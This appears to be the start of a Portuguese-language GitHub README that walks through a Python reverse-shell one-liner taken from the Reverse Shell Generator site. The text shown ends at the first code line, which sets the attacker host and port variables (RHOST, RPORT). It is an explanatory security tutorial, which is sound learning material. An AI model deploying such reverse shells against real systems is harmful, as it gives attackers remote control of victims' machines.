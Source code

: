 
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

<h2>👾  Descrição</h2>

Se você é um entusiasta do hacking e da Segurança da Informação com certeza você já usou ou já ouviu falar sobre o Reverse Shell Generator. É uma plataforma Web que você consegue utilizar um gerador de conexão reversa de diversos tipos de conexões para Windows, Linux e MAC, e com diferentes linguagens como: Python, C, Ruby e por ai vai.

   
Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!


~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
